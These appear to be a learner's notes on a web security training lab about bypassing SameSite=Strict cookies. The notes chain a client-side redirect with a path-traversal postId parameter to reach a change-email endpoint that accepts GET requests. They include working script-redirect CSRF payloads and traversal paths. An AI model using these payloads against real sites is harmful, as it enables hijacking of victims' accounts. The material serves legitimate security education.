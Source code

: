 ##### Bypass the SameSite restrictions
1. In the browser, go to the exploit server and create a script that induces the viewer's browser to send the `GET` request you just tested. The following is one possible approach:
    `<script> document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account"; </script>`
2. Observe that when the client-side redirect takes place, you still end up on your logged-in account page. This confirms that the browser included your authenticated session cookie in the second request, even though the initial comment-submission request was initiated from an arbitrary external site.

##### Craft an exploit
1. Send the `POST /my-account/change-email` request to Burp Repeater.
2. In Burp Repeater, right-click on the request and select **Change request method**. Burp automatically generates an equivalent `GET` request.
3. Send the request. Observe that the endpoint allows you to change your email address using a `GET` request.
4. Go back to the exploit server and change the `postId` parameter in your exploit so that the redirect causes the browser to send the equivalent `GET` request for changing your email address:
    `<script> document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1"; </script>`
    Note that you need to include the `submit` parameter and URL encode the ampersand delimiter to avoid breaking out of the `postId` parameter in the initial setup request.
5. Test the exploit on yourself and confirm that you have successfully changed your email address.
6. Change the email address in your exploit so that it doesn't match your own.

 Analysis:
- we observe that in the post request of login page we have set SameSite strict attribute
	![[Pasted image 20240925011636.png]]
	
- we observe that in the post request of the change email we can change the request from POST to GET(which it means that this endpoint accepts also get request)
	![[Pasted image 20240925011800.png]]
- we have to bypass the SameSite strict by finding a redirecting element which method is trough GET (we will find a redirect in the comment section and the element is postID )
	![[Pasted image 20240925012029.png]]
	![[Pasted image 20240925011914.png]]![[Pasted image 20240925012201.png]]

- payload0 (vulnerable redirecting element):
```
/post/comment/confirmation?postId=5
```

- payload1 (redirecting to my account in order to change email):
```
/post/comment/confirmation?postId=my-account/
```

- payload2 (page not found so we have to do a path traversal):
```
/post/comment/confirmation?postId=../my-account/
```
